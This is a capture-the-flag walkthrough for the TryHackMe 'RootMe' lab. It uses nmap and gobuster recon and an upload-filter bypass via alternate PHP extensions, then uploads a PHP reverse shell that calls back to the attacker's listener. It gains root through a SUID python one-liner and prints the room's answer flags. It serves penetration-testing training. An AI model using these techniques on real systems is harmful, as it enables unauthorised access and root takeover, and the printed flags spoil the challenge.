










Room: https://tryhackme.com/room/rrootme
## Reconnaissance
Start with an `nmap` scan to identify open ports and services running on the target:

```bash
nmap -sV <ip_addr>
```



> 
> **Scan the machine, how many ports are open?**
> - `2`
>
> **What version of Apache is running?**
> - `2.4.29`
>
> **What service is running on port 22?**
> - `ssh`

---

Next, use `gobuster` to enumerate directories on the web server:
```bash
gobuster dir -u <url> -w <wordlists>
```



> **What is the hidden directory?**
> - `/panel/`

---

## Getting a shell
Browse to `/panel/` 



To exploit this, we can use a PHP reverse shell. Can be found here:
> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Make sure to update the shell with your VPN IP and a chosen listening port.



As you can see file with `.php` seems to be blacklisted

Try bypass the filter by trying other extensions:
> - **PHP:** _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_
> - **Working in PHPv8**: _.php_, _.php4_, _.php5_, _.phtml_, _.module_, _.inc_, _.hphp_, _.ctp_

Eventually, it succeed



From earlier `gobuster` scan, we know there's an `/uploads` directory.



Listen to port set earlier using `netcat`.

```bash
nc -lvnp <port>
```
Accessing the uploaded reverse shell file will spawns a shell.



To find `user.txt`:
```bash
find / -type f -name user.txt 2> /dev/null
```



Display the flag:
```bash
cat /var/www/user.txt
```

> **user.txt** : `THM{y0u_g0t_a_sh3ll}`

---
## Privilege escalation
To escalate privileges, look for SUID binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```



> **Search for files with SUID permission, which file is weird?**
> - `/usr/bin/python`

Find a form to escalate your privileges. Searching [GTFOBins](https://gtfobins.github.io) shows how to use Python privilege escalation:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Now as root. Find the root.txt:

```bash
find / -type f -name root.txt 2> /dev/null
```



> **root.txt**
> `THM{pr1v1l3g3_3sc4l4t10n}`
